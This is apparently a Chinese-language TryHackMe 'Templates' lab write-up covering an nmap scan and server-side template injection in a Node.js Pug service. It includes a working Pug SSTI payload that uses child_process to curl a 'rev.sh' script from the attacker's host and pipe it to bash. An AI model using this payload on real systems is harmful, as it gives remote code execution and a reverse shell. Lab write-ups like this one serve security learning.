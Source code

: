 ```yaml
---
sidebar_position: 138
tags: [Easy, Linux, SSTI]
title: "Templates"
description: "Templates"
sidebar_label: "Templates"
slug: /tryhackme/138
---
```


# Templates

## 端口扫描

```bash
root@ip-10-10-166-251:~/templates# nmap -sTCV -p- --min-rate 1000 10.10.38.72

Starting Nmap 7.60 ( https://nmap.org ) at 2023-10-04 06:01 BST
Nmap scan report for ip-10-10-38-72.eu-west-1.compute.internal (10.10.38.72)
Host is up (0.00032s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Node.js (Express middleware)
|_http-title: PUG to HTML
MAC Address: 02:DB:0A:27:77:E5 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.41 seconds
```

## 5000

根据扫描结果我们可以看出这是一个 NODE,js 的 PUG 服务, 查看网页显示发现其是一个渲染的功能, 所以可能存在 SSTI 漏洞, 经过搜索我们可以发现下面的这个利用方式[SSTI (Server Side Template Injection)](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#pugjs-nodejs)

## 后渗透

利用上面的命令编写我们的命令执行语句

```bash
#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('curl 10.10.166.251:8000/rev.sh | bash')}()}
```

![image-20240709171151824](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-171153.png)